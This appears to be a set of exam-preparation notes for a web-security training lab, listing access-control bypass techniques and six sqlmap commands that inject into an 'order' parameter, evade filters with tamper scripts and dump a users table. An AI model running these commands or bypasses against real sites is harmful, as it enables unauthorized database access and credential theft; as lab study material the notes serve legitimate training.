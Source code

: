 ## _**Restricted App functionalities (ie. Admin Panel etc)**_
### * **Only certain-domain users (DontWannaCry) can access admin panel**
   - Inconsistent handling of exceptional input (the server only reads 255 chars after an email is registered)
   - Inconsistent security controls (change email function doesn't verify the newly added email)

### * **Change request method**
   - Method-based access control can be circumvented

### * **TRACE Method**
   - Authentication bypass via information disclosure

### * **HTTP Headers**
   - URL-based access control can be circumvented




## _**Advanced Search Functionality**_
### - **SQL injection to retreive Administrator cookies through advanced search (Practice Exam)**

- Here we use the asterisk (*) to set the injection point for sqlmap. Which is the "order" parameter in this scenario.

```
sqlmap -u 'https://LAB-ID.web-security-academy.net/filtered_search?find=cizipbkq&organize=4&order=ASC*&BlogArtist=Sophie+Mail' --random-agent --time-sec 10 --cookie='session=YOUR-SESSION-COOKIE' --level 5 and --risk 3 --dbs
```
```
sqlmap -u 'https://LAB-ID.web-security-academy.net/filtered_search?find=cizipbkq&organize=4&order=ASC*&BlogArtist=Sophie+Mail' --random-agent --time-sec 10 --cookie='session=YOUR-SESSION-COOKIE' --level 5 and --risk 3 --tamper="between,randomcase,space2comment" --dbs
```
```
sqlmap -u 'https://LAB-ID.web-security-academy.net/filtered_search?find=cizipbkq&organize=4&order=ASC*&BlogArtist=Sophie+Mail' --random-agent --time-sec 10 --cookie='session=YOUR-SESSION-COOKIE' --level 5 and --risk 3 -D public --tables
```
```
sqlmap -u 'https://LAB-ID.web-security-academy.net/filtered_search?find=cizipbkq&organize=4&order=ASC*&BlogArtist=Sophie+Mail' --random-agent --time-sec 10 --cookie='session=YOUR-SESSION-COOKIE' --level 5 and --risk 3 --tamper="between,randomcase,space2comment" -D public --tables
```
```
sqlmap -u 'https://LAB-ID.web-security-academy.net/filtered_search?find=cizipbkq&organize=4&order=ASC*&BlogArtist=Sophie+Mail' --random-agent --time-sec 10 --cookie='session=YOUR-SESSION-COOKIE' --level 5 and --risk 3 -D public -T users --dump
```
```
sqlmap -u 'https://LAB-ID.web-security-academy.net/filtered_search?find=cizipbkq&organize=4&order=ASC*&BlogArtist=Sophie+Mail' --random-agent --time-sec 10 --cookie='session=YOUR-SESSION-COOKIE' --level 5 and --risk 3 --tamper="between,randomcase,space2comment" -D public -T users --dump
```
